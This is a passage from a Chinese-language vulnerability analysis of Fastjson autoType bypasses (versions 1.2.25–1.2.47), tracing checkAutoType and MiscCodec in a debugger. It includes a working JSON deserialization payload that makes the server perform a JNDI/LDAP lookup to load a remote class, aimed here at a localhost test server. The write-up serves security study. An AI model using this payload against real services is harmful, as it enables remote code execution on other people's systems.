 ![image-20220302190939277](images/20.png)

# 1.2.25-1.2.45补丁绕过

需要目标服务端存在mybatis的jar包，且版本需为3.x.x系列<3.5.0的版本

这里就记录一个payload就是了

```
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://localhost:1389/badNameClass"}}
```

# 1.2.25-1.2.47通杀

 这里有两个版本段：

- 1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport不能利用
- 1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用

漏洞原理：通过java.lang.Class，将JdbcRowSetImpl类加载到Map中缓存，从而绕过AutoType的检测

## 漏洞分析

因为不开启AutoTypeSupport都能利用成功，这里就只分析不开启的情况了

一样的来到了checkAutoType方法

![image-20220303214834510](images/21.png)

这里因为autoTypeSupport默认为false，所以不会进入黑名单检测

但是以为此时的typeName是java.lang.Class，findClass能够找到所以后面的clazz不为空会直接返回

![image-20220303214922556](images/22.png)

进入if返回clazz

![image-20220303215019844](images/23.png)

回到DefaultJSONParser的parseObject方法一路步进到

![image-20220303215120277](images/24.png)

跟进deserialize方法来到了MiscCodec类的deserialize方法

![image-20220303215325280](images/25.png)

这里的strVal是com.sun.rowset.JdbcRowSetImpl

跟进TypeUtils.loadClass

![image-20220303215403825](images/26.png)
